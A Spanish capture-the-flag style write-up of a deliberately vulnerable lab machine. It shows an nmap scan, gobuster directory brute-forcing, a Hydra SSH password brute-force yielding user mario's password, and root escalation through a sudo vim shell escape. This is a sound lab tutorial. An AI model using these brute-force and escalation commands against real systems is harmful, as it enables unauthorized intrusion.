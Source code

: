 #### INFORMACION DE LA MAQUINA.
#### Maquina Trust.
[LINK DE LA MAQUINA](https://mega.nz/file/UacxFKDR#G5KBHBt8ASB0lHPuttnaxKROAa40FMGrvBoIBf6ak0E)
#### Dificultad: Muy facil.

---

Enviamos un ping de un paquete para comprobar que la maquina esta activa y lista.
```Linux
Ping -c 1 172.17.0.2
```
![Captura de pantalla 2024-05-29 001656](https://github.com/sav404/Hacked-Machines/assets/169759579/e0daf810-4ccc-4a61-884b-46a39631509c)

Si entramos a la ip en el navegador podemos ver que en el puerto 80 hay un servidor apache2 configurado, el cual tiene la pagina por defecto que te entregan al activar el servidor.

---

Comenzamos el proceso con el reconocimiento del objetivo mediante el uso de la herramienta Nmap. Realizaremos un escaneo exhaustivo de todos los puertos disponibles, utilizando un escaneo de tipo SYN, junto con un conjunto de scripts que maximizarán la capacidad de reconocimiento, así como otro que nos proporcionará información sobre la versión de los servicios. Este escaneo se realizará enviando paquetes a una velocidad mínima de 5000 por segundo, sin realizar resolución DNS, y con un nivel de vervose triple en la salida para que los puertos abiertos se notifiquen progresivamente a medida que avanza el escaneo. Además, se incluirá un ping para verificar la conectividad previa.
```Linux
sudo nmap -p- -sS -sC -sV --min-rate 5000 -n -vvv -Pn 172.17.0.2
```

El escaneo detecto que la maquina tiene el puerto 22 protocolo SSH y puerto 80 protocolo HTTP abiertos.
Resultado de el escaneo:
```Linux
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.57 ((Debian))

```
---

Vamos a hacer fuerza bruta a la url de la pagina para poder encontrar directorios ocultos utilizando la herramienta GoBuster y una lista common de palabras. añadimos que busque extensionés html y php, para encontrar mas directorios posibles en el servidor web.
```Linux
gobuster dir -u http://172.17.0.2 -w usr/share/wordlists/dirb/common.txt html,php
```

Resultado de fuerza bruta:
``` Linux
/index.html           Status: 200
/secret.php           Status: 200
```

Accedémos a secret.php y encontramos una pagina la cual dice que no puede ser hackeada.
![Captura de pantalla 2024-05-29 005453](https://github.com/sav404/Hacked-Machines/assets/169759579/49517ba4-d3b3-42d5-8bab-2aa524dde070)

---

Vamos a intentar un ataque de fuerza bruta al puerto 22 SSH, ya que vimos que está abierto. Usaremos Hydra, especificando `-l` para el nombre de usuario, que sabemos que es "Mario", y `-P` para la contraseña, usando el diccionario de contraseñas RockYou y 64 hilos de velocidad.
```Linux
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 64

```
Resultado de la fuerza bruta.
![Captura de pantalla 2024-05-29 011225](https://github.com/sav404/Hacked-Machines/assets/169759579/d8a08fc8-caf0-4d21-9d14-6751d3d51d2f)


Credenciales obtenidas ya tenemos acceso a el usuario mario el cual su contraseña es: chocolate.

---

A continuación nos conectamos con el comando ssh y pasandole el nombre de usuario arrobado con la ip de la maquina victima u objetivo.
```Linux
ssh mario@172.17.0.2
```

Nos saldra este aviso para que veamos si estamos intentando conectarnos al servidor correcto y no nos hayamos equivocado para entrar a uno malicioso, sale siempre al conectarse mediante ssh a una maquina por primera vez, puedes poner que yes y listo.
![Captura de pantalla 2024-05-29 011029](https://github.com/sav404/Hacked-Machines/assets/169759579/7df6cad3-cb5e-4d81-a6a9-40db20697026)

A continuacion nos pide la contraseña la cual como ya sabemos es **Chocolate**
![Captura de pantalla 2024-05-29 011029](https://github.com/sav404/Hacked-Machines/assets/169759579/af1ccc43-65c7-4913-a446-8530e23aee6d)

---
Con el siguiente comando una vez dentro del usuario mario vamos a ejecutar como root el ide: vim.
```Linux
sudo -u root /usr/bin/vim
```

Ahora dentro del mismo vim presionamos control + z , lo cual nos abrira una pequeña seccion en la parte de abajo de todo, donde con doble punto :q podemos salir o escribri con :w etc, lo que mucha gente no sabe es que por ahi tambien podemos abusar para ejecutar comandos como por ejemplo abrirnos una bash que es lo que haremos a continuacion.
```Vim
:!/bin/bash
```
![Captura de pantalla 2024-05-29 011927](https://github.com/sav404/Hacked-Machines/assets/169759579/2b2546c1-f2fe-4ab0-8a14-880d43c0175a)

Gracias a eso, escalamos privilegios y obtuvimos el usuario con mayores privilegios root.
![Captura de pantalla 2024-05-29 012304](https://github.com/sav404/Hacked-Machines/assets/169759579/c46bedb5-a9da-4fea-a523-07c2889e9766)

---
